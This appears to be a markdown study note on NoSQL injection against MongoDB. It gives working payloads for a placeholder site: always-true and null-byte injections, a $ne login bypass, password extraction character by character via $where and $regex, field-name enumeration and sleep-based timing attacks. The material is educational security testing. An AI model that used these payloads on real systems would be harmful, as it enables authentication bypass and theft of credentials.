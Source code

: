 ```yaml
---
title: "NoSQL injection"
weight: 16
---
```


<details><summary>Introduction to NoSQL databases</summary>

**NoSQL databases**

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

**NoSQL database models**

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

</details>

---

## Types of NoSQL injection

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2. Operator injection - when you can use NoSQL query operators to manipulate queries.

---

## NoSQL syntax injection

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'` -> `this.category == '''`
  * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, e.g.: `\'` -> `this.category == '\''`
  * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### Confirming conditional behavior

```markdown
# False condition
' && 0 && 'x
' && '1'=='2

# True condition
' && 1 && 'x 
' && '1'=='1
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.

### Overriding existing conditions

```markdown
# Always true: 
'||1||'
'||'1'=='1'

# Inject: fizzy'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

# Back-end code
this.category == 'fizzy'||1||''
```

The modified query returns all items (all the products in any category).

> **Wwarning**: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.

**Null character**

MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.

```markdown
# Back-end code
this.category == 'fizzy' && this.released == 1

# Inject null char
https://insecure-website.com/product/lookup?category=fizzy'%00

# Back-end code result [removes the req for the released field to be set to 1]
this.category == 'fizzy'\u0000' && this.released == 1
```

---

## NoSQL operator injection

<details><summary>Examples of MongoDB query operators</summary>

* `$where` - Matches documents that satisfy a JavaScript expression.

- `$ne` - Matches all values that are not equal to a specified value.

* `$in` - Matches all of the values specified in an array.

- `$regex` - Selects documents where values match a specified regular expression.



MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)

</details>

* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`

***

* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.

### Testing

```markdown
# Login bypass
{"username":"bob","password":{"$ne":"invalid"}}

# Guess with usernames list
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

# Guess with regex
{"username":{"$regex":"^adm"},"password":{"$ne":""}}
```

**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

---

## Extract data

**INSIDE $WHERE**

* Consider `https://insecure-website.com/user/lookup?username=admin`
* This results in the following NoSQL query of the `users` collection: `{"$where":"this.username == 'admin'"}`
* As the query uses the `$where` operator, you can attempt to inject JavaScript functions.
  * `admin' && this.password[0] == 'a' || 'a'=='b`
    * This returns the first character of the user's password string. You can go on...
  * `admin' && this.password.match(/\d/) || 'a'=='b`
    * Identify whether the password contains digits

***

**INJECT OPERATOR (where)**

* Consider `{"username":"wiener","password":"peter"}`
* Add `$where` operator as an additional parameter. Send one true request and one false request.
  * `{"username":"wiener","password":"peter", "$where":"0"}`
  * `{"username":"wiener","password":"peter", "$where":"1"}`
  * Different responses? This may indicate that the JavaScript expression in the `$where` clause is being evaluated

***

**INJECT OPERATOR (regex)**

* Consider `{"username":"myuser","password":"mypass"}`
  * `{"username":"myuser","password":"incorrect"}` (incorrect password)
  * `{"username":"admin","password":{"$regex":"^.*"}}`
  * Different responses? The app may be vulnerable
* `{"username":"admin","password":{"$regex":"^a*"}}`
  * Extract data character by character

---

## Identify field names

**FIRST WAY**

* Send the payload for an existing field and for a field that doesn't exist.&#x20;
* Example
  * `admin' && this.username!='` (you know `username` field exists)
  * `admin' && this.foo!='` (you know `foo` field doesn't exist)
  * `admin' && this.password!='` (you want identify `password` field)
    * `https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'`
* If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).

***

**SECOND WAY**

* You can inject operator?
  * `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  * This query selects documents where the first key (field) of the document starts with the letter "a". You can extract the field name char by char

<details><summary>Example</summary>

```json
{
"username":"test",
"$where":"Object.keys(this)[§1§].match('^.{0}§u§.*')"
}
```

With intruder set: 1 payload: numbers, 2 payload: bruteforce chars.



You have :&#x20;

```json
[
    { "apple": "fruit", "color": "red" },
    { "banana": "fruit", "color": "yellow" },
    { "avocado": "fruit", "color": "green" },
    { "berry": "fruit", "color": "blue" }
]
```

Query

```javascript
db.collection.find({ "$where": "Object.keys(this)[0].match('^.{0}a.*')" })
```

```json
[
    { "apple": "fruit", "color": "red" },
    { "avocado": "fruit", "color": "green" }
]
```

</details>

---

## Timing based injection

Database error doesn't cause a difference in the application's response? Trigger a conditional time delay

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. Example `{"$where": "sleep(5000)"}`
3. Identify whether the response loads more slowly

* Trigger a time delay if the password beings with the letter `a`
  * `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  * `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
